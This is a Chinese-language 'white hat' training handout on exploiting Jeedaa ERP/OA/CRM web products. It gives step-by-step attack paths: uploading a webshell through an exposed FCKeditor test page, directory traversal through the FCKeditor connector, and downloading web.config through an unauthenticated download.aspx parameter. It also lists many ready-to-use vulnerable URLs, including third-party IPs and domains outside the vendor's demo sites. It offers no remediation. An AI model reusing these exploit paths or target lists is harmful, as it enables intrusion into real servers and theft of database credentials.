







# 米斯特白帽培训讲义 实战篇 捷达系统

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 概述

官网：[http://www.jeedaa.com/](http://www.jeedaa.com/)

主要产品有：

*   捷达ERP
*   捷达OA
*   捷达eHR
*   捷达CRM
*   捷达eFax
*   捷达仓库管理
*   捷达进销存.Net
*   捷达协同办公.Net

均存在能够 GetShell 的漏洞。

这个东西仍旧是闭源的，我们使用它的演示站点，`http://demoerp.jeedaa.com`来进行演示。

## 文件上传

我们用御剑扫一扫。

出现了 FCKEditer。我们访问`/fckeditor`，发现是 403 的。

但是我们扫描`/fckeditor/fckeditor`：

发现有三个 200。我们访问`/fckeditor/fckeditor/editor/filemanager/upload/test.html`：

我们在查看元素里面添加一个 ASPX，然后随便上传一个 ASP 文件上去。获得了该文件的链接。

部分案例（均为捷达的演示站点）：

*   `http://erp2008v4.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://erp.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://qd.jeedaa.net//fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://oa.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://demoerp.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://crm.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://shijia.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://lg.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
*   `http://hj.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`

## 目录遍历

访问`/fckeditor/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=E:/&CurrentFolder=%2F`

可以改动`CurrentFolder`参数来进入子目录，也可以改动`Type`参数来切换盘符。

## 文件下载

访问`/WebApp/PassportService/download.aspx?p=/AccreditAdmin/Web.config`下载数据库文件：

部分案例：

*   `http://221.136.81.169/WebApp/PassportService/download.aspx?p=web.config`
*   `http://61.164.170.82:88/WebApp/PassportService/download.aspx?p=web.config`
*   `http://www.nbjyly.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://oa.jobgroup.cn:2013/WebApp/PassportService/download.aspx?p=web.config`
*   `http://erp2008v4.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://erp.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://qd.jeedaa.net//WebApp/PassportService/download.aspx?p=web.config`
*   `http://61.130.104.162:8080/WebApp/PassportService/download.aspx?p=web.config`
*   `http://oa.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://demoerp.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://crm.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://shijia.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://lg.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://hj.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://oa.nbself.com/WebApp/PassportService/download.aspx?p=web.config`
*   `http://61.164.170.82:88/WebApp/PassportService/download.aspx?p=web.config`